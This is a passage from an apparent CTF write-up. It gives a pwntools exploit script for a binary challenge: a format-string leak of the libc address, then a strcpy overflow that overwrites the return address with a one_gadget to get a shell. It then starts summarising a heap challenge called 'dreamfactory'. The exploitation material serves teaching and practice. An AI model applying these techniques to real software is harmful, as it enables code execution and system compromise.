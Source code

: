 > HOWEVER, strcpy only copies up to the first null terminator in the buffer.
> 
> Since packed addresses in little endian contains null-bytes, we can only overflow the return address with a single address of our choice but we cannot fit a whole ROP chain on the stack.
{:.prompt-warning}

We can use a [one_gadget](https://github.com/david942j/one_gadget), which is a single gadget that pops a shell under certain conditions, to overwrite the return address and get a shell!

```py
from pwn import *

context.binary = elf = ELF("./challenge")
libc = elf.libc
# obtain via -- one_gadget -r ./lib/libc.so.6
gadgets = [324254,324261,324354,1090300]

p = process("./challenge")

# leak libc address
p.sendlineafter(b"characters): ", b"%2$p")
p.sendlineafter(b"10): ", b"2")
p.recvuntil(b"book '")
libc.address = int(p.recvuntil(b"'", drop=True), 16) - 4118720
print(hex(libc.address))

# overwrite return address with one_gadget
payload = b"A"*0x138
payload += p64(libc.address + gadgets[0])
p.sendline(payload)
p.sendlineafter(b"1): ", b"0")

p.interactive()
```


<br>


## Pwn - dreamfactory

**Learning objective:** Understand how the heap works, heap re-use :D

<hr width="90%" color="grey" size="4px" />

The source code is super long, I've attached it [here](/assets/posts/2024-08-25-welcome-ctf-2024/dreamfactory.c) if you'd like to take a look.

Anyways, I'll summarize the functionality of the program in point form.

1. Dreaming
    - Add a Dream
        - Allocates an array of function pointers on the heap
    - Start Dreaming
        - Executes the function pointers and free the entire array
2. Notes
    - Take a note
        - Allocate a buffer of variable size to contain note contents
    - Print note
        - Print contents of note
    - Delete note
        - Free note buffer
